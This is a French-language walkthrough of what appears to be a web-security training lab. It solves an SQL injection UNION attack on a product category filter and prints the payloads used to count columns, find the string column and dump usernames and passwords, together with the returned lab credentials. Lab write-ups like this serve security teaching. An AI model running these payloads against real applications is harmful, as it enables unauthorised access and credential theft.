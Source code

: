 ## DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords,
and use the information to log in as the administrator user.

------------------------------------------------------------------------------------------------------

Gardons les informations suivantes :
table = users
colonnes = username, password

Même méthodologie que pour les précédents labs, on retrouve le nombre de colonnes et leur compatibilité avec une string avec le payload :
'UNION SELECT NULL,NULL....--

2 colonnes sont disponibles.

```
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```

Seule la seconde colonne est compatible avec les strings.

Nous disposons donc des informations suivantes :

table = users
2 colonnes : username, password
Compatbile avec string : 2nd colonne

Tentons maintenant de concatener les valeurs contenues dans username et password à partir de la deuxième colonne :

```
'UNION SELECT NULL,username || '=' || password FROM users--
```

La page retourne les deux colones séparées par un "=", contenant le mot de passe de l'administrateur :

High-End Gift Wrapping
Snow Delivered To Your Door
wiener=jm9krrxittguzkp66szm
administrator=*******************
Conversation Controlling Lemon
Couple's Umbrella
carlos=j94kb278agl7qmn4l1bw